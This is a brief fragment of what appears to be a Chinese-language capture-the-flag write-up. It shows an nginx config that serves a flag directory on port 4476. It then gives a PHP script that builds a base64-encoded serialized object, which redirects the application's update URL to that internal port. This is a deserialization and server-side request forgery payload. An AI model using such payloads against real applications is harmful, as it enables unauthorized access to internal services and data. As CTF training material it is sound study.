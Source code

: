 ```php
?>
```

得到：
```php
	server {
        listen       4476;
        server_name  localhost;
        root         /var/flag;
        index index.html;

        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
}
```

访问 4476：
```php
<?php
class config{
	public $update_url = 'http://127.0.0.1:4476';
}
class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}
}
$a=new dao();
echo base64_encode(serialize($a));
?>
```


